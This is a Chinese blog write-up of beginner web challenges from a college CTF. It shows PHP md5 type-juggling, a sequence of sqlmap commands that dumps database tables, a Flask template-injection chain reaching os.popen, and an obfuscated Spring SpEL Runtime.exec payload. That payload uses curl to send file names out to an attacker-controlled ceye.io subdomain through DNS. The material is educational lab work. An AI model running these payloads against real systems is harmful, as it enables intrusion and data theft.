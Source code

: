 <!--yml
category: 未分类
date: 2022-04-26 14:48:25
-->

# 记一次院赛CTF的WEB题（入门级别）_CTF小白的博客-CSDN博客_ctf web解题 找flag

> 来源：[https://blog.csdn.net/qq_41429081/article/details/89296025](https://blog.csdn.net/qq_41429081/article/details/89296025)

这次院赛的题目比较基础，适合给刚入门CTF的小白提供一个大致CTF解题思路。（主要因为本人小白，表示能学到不少东西。）

# 签到一

题目中直接给了flag，提交就可以了。

# 签到二

![在这里插入图片描述](img/65c8306b419751acbf4f563728433bec.png)
![在这里插入图片描述](img/cc7655deee398491d56fa9911b1ecc2c.png)
这题主要考察的是基本的F12能力，查看网页源码，以及修改input输入框的长度。

# 口算小天才

![在这里插入图片描述](img/3630707999b6ff7ce164f171f6a4ed08.png)
这题通过题意，是需要让我们在1~3秒内回答出这个计算题。这题应该算是考察一个基本的编程能力吧。
![在这里插入图片描述](img/e0204eada5b5c08af48c685e61d472df.png)
这边给出我的python代码。当然这题还有很多别的编程语言可以使用，我当时就是直接用的js，直接获取算式，然后我是百度了一个别人写好js的运算的函数CalcEval.prototype.complexEval，然后将算式传进去，计算得出答案，放到答案的框中，js点击实现的。

# easy php

![在这里插入图片描述](img/4e03a421460f6d7a2e9be8a17b107cdd.png)
其实看到vim就可以想到.swp文件的泄露，但是作为小白的我没有想到这个，我直接放到了漏洞扫描的软件扫了一下（强烈推荐这个软件）
![在这里插入图片描述](img/a6ca10b927d9c625cc83bf12b5cba399.png)
这里发现了.DS_Store的泄露。

![在这里插入图片描述](img/6c36ad78ed614eba516080cd330652f5.png)
然后用ds_store_exp这个工具下载下来（需要的是python2.7的环境）
![在这里插入图片描述](img/7f039d3a56dc9dade07d32bea1cdd21c.png)
这边代码审计一下，首先页面get到a、b、c三个参数，然后把a和b经过的md5后的保存下来，这题输出flag的条件分别是，1、a和b存在 2、a！=b，且a的md5和b的md5要相等 3、c<9999999||(String)$c>0这个结果要是false。

md5（）这个函数可以去百度一下，如果我们传入的a和b是数组的话，他们md5（）后的返回值会是false，利用false==false可以满足条件2

然后要满足条件3需要知道，数组与整数比较会返回false，所以构建如下
![在这里插入图片描述](img/d63ab39a841054d0884a6ae568c6d69a.png)

# 录取查询

这题可以发现注入点，可以直接选择手工注入，但是更简单的是使用sqlmap
关于sqlmap如何post注入可以看下面的

首先需要用bp抓个包，把他copy到一个txt里面保存。
![在这里插入图片描述](img/e43ce82ecf82e20c1554d917595da59d.png)

使用 sqlmap –r lqcx.txt –-dbs
就是使用我们保存的这个txt，去找数据库
![在这里插入图片描述](img/1670c6abf8a6398c5db0f61691e8ad41.png)

可以发现有如下数据库，因为是学校的录取查询，所以应该是school，当然不知道也没关系，每个看一遍也能找到flag
![在这里插入图片描述](img/462beaf732e2f8f37b10f35ceb1bd39f.png)
然后sqlmap r lqcx.txt –D school –-table
就是找school数据库的表
![在这里插入图片描述](img/28033ac4dcbeac333ac2b9b4d7e5af53.png)
可以发现有这两张表，所以当然是选择flag
![在这里插入图片描述](img/646cb0c8f3c6be32f1d5a7684e534c7b.png)
使用sqlmap –r lqcx.txt –D school –T flag –-column
查找school数据库中的flag表的字段
![在这里插入图片描述](img/c1cf0dfc343c30b8ce6cc681503f4aa2.png)
可以看到有flag字段
![在这里插入图片描述](img/352bee0595931d6d1caae6c9902067cd.png)

使用sqlmap –r lqcx.txt –D school –T flag –C flag –-dump
就是查找school数据库中的flag表的flag字段，然后—dump弹出显示出来
![在这里插入图片描述](img/5a325bac50a275ff0c09e8d1422c47a0.png)
就能得到flag
![在这里插入图片描述](img/31d78f3f4c001b0cc4a92ac7ab2e7021.png)

然后放一段我同学的手工注入
![在这里插入图片描述](img/eb52092fbb41243c89184320efdc893c.png)

# 我爱python

![在这里插入图片描述](img/d74cc07595c321338908fd94c9c73bf3.png)
这题的话，看了他的网页源码，可以看到power by flask，然后百度一下flask漏洞
推荐这篇博客https://blog.csdn.net/lansatiankongxxc/article/details/78764726

大概可以知道我们需要他的os模块来显示有哪些文件，然后使用file模块来读取文件。
这边使用{{().**class**.**bases**[0].**subclasses**()}}可以看到有哪些类，我们发现有file，然后我们还需要os，这边看了大佬的write up知道了，访问os模块可以从warnings.catch_warnings下手，发现确实是包含了这个类

这边是上面查到的那篇博客的部分截图
![在这里插入图片描述](img/0cbc241a5d8e55f659e76cf07f833177.png)
首先，这边要找warnings.catch_warnings的位置，于是我用{{[].**class**.**base**.**subclasses**().index(warnings.catch_warnings)}}
我发现不能执行他的那个语句应该是没有导入warnings的缘故吧我想，于是我把之前用{{().**class**.**bases**[0].**subclasses**()}}找到的所有类放到notepad++中，批量把>换成了>\n
![在这里插入图片描述](img/95a49e2dafb37e4ea137c7ea1de34f01.png)
这边发现他是第60个，换成索引就是59。

然后知道了位置，执行
{{().**class**.**bases**[0].**subclasses**()[59].**init**.func_globals.keys() }}查看由哪些global函数
![在这里插入图片描述](img/35c2df84ad8cb4318f6ff51e1f855691.png)
这边可以看到有linecache，我们要访问的os模块就在这里

{{().**class**.**bases**[0].**subclasses**()
[59].**init**.**getattribute**(‘func_global’+‘s’)
[‘linecache’] .**dict**[‘o’+‘s’].**dict**[’popen’]('%20rel=).read()}}
当然，这边没有进行关键字的过滤，所以不需要拼接字符串，但是我这里还是拼接了一下。
![在这里插入图片描述](img/0a9ba998ecfd27671f696f674d48333d.png)
可以看到有这些文件，很明显我们要的是flag。
使用file模块进行读写
使用之前找到warnings.catch_warnings位置的方法，发现file的索引是40

{{().**class**.**bases**[0].**subclasses**()[40]('%20rel=).read()}}

![在这里插入图片描述](img/ebfa5d4fa9c9f6eed80063b61c3b0195.png)

# Spring

主要给了他后台的源码，是一个jar包。
使用JD-GUI反编译一下，可以看到可读的java源码
首先可以看到SpringBoot的配置application.yml
![在这里插入图片描述](img/87e2db426359f0df5a24557d190b2f3d.png)
这边可以看到一个管理员的账号、密码、权限和一个后面要用到的rememberMeKey。还有一个黑名单，我们后面需要绕过这些。

Main控制器中主要是一个账号密码权限和是否记住的读取，然后如果勾选了记住我的话，会默认给设定一个cookie

由于SmallEvaluationContext extends StandardEvaluationContext StandardEvaluationContext这些是可以执行类类型表达式。所以会出现命令执行漏洞。
![在这里插入图片描述](img/9f2f38caf2d893fd5f90f03b7722ace8.png)
![在这里插入图片描述](img/c02e7c369b3e0cda4a65fc07b3d00ff3.png)
这边就是把那个username传到了getAdvanceValue（）方法里面，所以我们需要传的这个username应该是一个执行后可以获取我们想要的flag的东西。

然后可以看到这个username是把rememberMeValue传到this.userConfig.decryptRememberMe（）里面得到的。

rememberMeValue就是我们的remember-me的值，这是我们一个cookie的值，我们可以通过改cookie的值来实现传入这个rememberMeValue

然后找到userConfig里面的decryptRememberMe（）
![在这里插入图片描述](img/b20e24236615f454f27cb4b9458c73f9.png)
就是会调用这个解开我们的cookie然后最后给到具有命令执行漏洞的SmallEvaluationContext

所以我们要构造这个cookie，就需要使用加密的方法，可以找到

![在这里插入图片描述](img/56e35eeb7cd267f97dbde9534a1df68f.png)

这里的rememberMeKey的值就是之前看到的。
![在这里插入图片描述](img/8851be45349d36b687620f4d3d81f1cc.png)

然后就可以把这个加密的方法copy出来，把我们想要执行的内容加密存入cookie

我们主要是要通过这样来获取一个回显（[我这里使用DNSlog的回显方式是使用ceye.io](http://xn--DNSlogceye-2u5pga446v2g0a06jewom1bwho40xma514ebu0n6mj.io)）
Runtime.getRuntime().exec(“curl http://****（这里是自己的一个子域名）.ceye.io/”)

然后构建payload

```
String.class.getClass()
.forName("java.l"+"ang.Ru"+"ntime")
        .getMethod("exec",String.class)
        .invoke(String.class.getClass()
        .forName("java.l"+"ang.Ru"+"ntime")
            .getMethod("getRu"+"ntime")
            .invoke(String.class.getClass()
            .forName("java.l"+"ang.Ru"+"ntime"))
                ,"curl http://***.ceye.io/"); 
```

我最终构建如下
![在这里插入图片描述](img/7ff3064d6ec3dae1ecf94f2d1d615c71.png)
这边就是使目标服务器，执行将ls下的每一个文件名作为四级域名的形式回显。

为什么我不一次性作为一个字符串返回，是因为有长度限制
可以参考简书https://www.jianshu.com/p/307acf4e1fbf

所以我使用了一个for循环，将每个文件名作为我的域名的一部分回显了。
![在这里插入图片描述](img/8e494ed08c8d53c96f70806b1d30a769.png)
可以看到有flag_j4v4_hhh的一个文件

![在这里插入图片描述](img/616748df60b29d4cec0b2dd4ee0af422.png)
这边base64加密传输是避免部分符号的丢失

![在这里插入图片描述](img/e4d43c002272eef2944a31fc2817a0ad.png)
![在这里插入图片描述](img/b3c2a54eaf161e9d3d2dd35eca601395.png)